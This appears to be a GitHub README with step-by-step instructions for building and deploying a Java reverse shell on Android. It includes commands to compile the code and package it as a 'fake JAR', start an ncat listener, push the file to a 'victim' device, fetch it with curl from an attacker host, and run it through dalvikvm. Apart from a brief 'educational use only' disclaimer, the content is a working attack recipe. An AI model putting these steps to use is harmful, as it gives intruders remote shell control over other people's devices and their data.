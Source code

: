 # Pure Java Android Reverse Shell

Original Tutorial: https://malacupa.com/2018/10/25/android-command-line-reverse-shell.html

## On Attacker machine (you need android sdk installed and build-tools also):

#### Compile Java source code in bytecode (if fails for "class error not supported", change the release!)
`javac --release 17 AndroidReverseShell.java`

#### convert to DEX format 
`~/Library/Android/sdk/build-tools/33.0.0/d8 --output classes.dex AndroidReverseShell.class`

#### create fake JAR file
`zip reverse.jar classes.dex`

#### Set Listener (USE NCAT!)
`ncat -nlvp 1337`

## On victim android device:
`adb push reverse.jar /sdcard` (if Android Debug Tools is enabled)

You can just use DalvikVM bash script from Termux:

`curl http://attackingmachine:9999/reverse.jar -o /sdcard/reverse.jar`
`cd /system/bin/ && ./dalvikvm -cp /sdcard/reverse.jar AndroidReverseShell`

(pay attention to final "AndroidReverseShell" this must be same name used before, otherwise it fails!)

You can of course create a pure .apk package and sign it using Android Studio or apktool and apksigner and so on...

## Todo

. Support for SSL encryption

## Disclaimer:

*This is for educational use only.*

Java code was taken from https://gist.github.com/malacupa/3a98285ad67c98386f7e798b25ef808c#file-reverseshell-java
<br />All credits goes to original developer

